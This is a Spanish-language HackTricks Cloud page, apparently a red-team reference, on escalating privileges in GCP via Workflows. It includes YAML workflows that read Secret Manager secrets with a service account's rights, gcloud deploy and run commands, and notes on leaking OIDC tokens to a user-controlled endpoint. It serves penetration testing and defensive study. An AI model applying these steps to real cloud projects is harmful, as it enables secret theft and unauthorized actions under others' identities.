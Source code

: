 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Información básica:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Hasta donde sé, no es posible obtener un shell con acceso al endpoint de metadatos que contiene las credenciales de la SA atacada a un Workflow. Sin embargo, es posible abusar de los permisos de la SA añadiendo las acciones a realizar dentro del Workflow.

Es posible encontrar la documentación de los conectores. Por ejemplo, esta es la [**página del conector de Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** En la barra lateral es posible encontrar varios otros conectores.

Y aquí puedes encontrar un ejemplo de un conector que imprime un secreto:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Actualización desde la CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si obtienes un error como `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, simplemente **espera un minuto y vuelve a intentarlo**.

Si no tienes acceso a la web, es posible activar y ver la ejecución de un Workflow con:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
También puedes verificar la salida de ejecuciones anteriores para buscar información sensible
{% endhint %}

Ten en cuenta que incluso si obtienes un error como `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` porque no tienes ese permiso, el flujo de trabajo ha sido generado.

### Filtración de token OIDC (¿y OAuth?)

Según [**la documentación**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) es posible usar pasos de flujo de trabajo que enviarán una solicitud HTTP con el token OAuth o OIDC. Sin embargo, al igual que en el caso de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la solicitud HTTP con el token Oauth debe ser al host `.googleapis.com`.

{% hint style="danger" %}
Por lo tanto, es **posible filtrar el token OIDC indicando un endpoint HTTP** controlado por el usuario, pero para filtrar el **token OAuth** necesitarías **un bypass** para esa protección. Sin embargo, aún puedes **contactar cualquier API de GCP para realizar acciones en nombre del SA** utilizando conectores o solicitudes HTTP con el token OAuth.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Con este permiso en lugar de `workflows.workflows.create`, es posible actualizar un flujo de trabajo ya existente y realizar los mismos ataques.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
